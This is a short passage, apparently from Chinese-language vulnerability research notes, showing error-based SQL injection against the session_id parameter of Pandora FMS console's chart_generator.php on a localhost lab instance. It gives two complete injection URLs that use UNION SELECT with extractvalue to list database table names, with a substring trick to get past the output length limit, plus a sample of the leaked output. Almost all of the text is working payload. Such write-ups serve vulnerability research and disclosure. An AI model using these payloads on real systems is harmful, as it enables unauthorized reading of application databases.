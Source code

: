 ```http
##表名
http://localhost:9002/pandora_console/include/chart_generator.php?session_id=1' UNION SELECT 1,extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))),3 --+
```



![image-20250403175011395](./Pandora/image-20250403175011395.png)

```
tvisual_console_elements_cac
```

```http
##默认只能返回 32 个字符，使用 substring 解决这个问题，返回第 25 个字符再往后显示 30 个字符
http://localhost:9002/pandora_console/include/chart_generator.php?session_id=1' UNION SELECT 1,extractvalue(1,concat(0x7e,(select substring(group_concat(table_name),1,30) from information_schema.tables where table_schema=database()))),3 --+
```
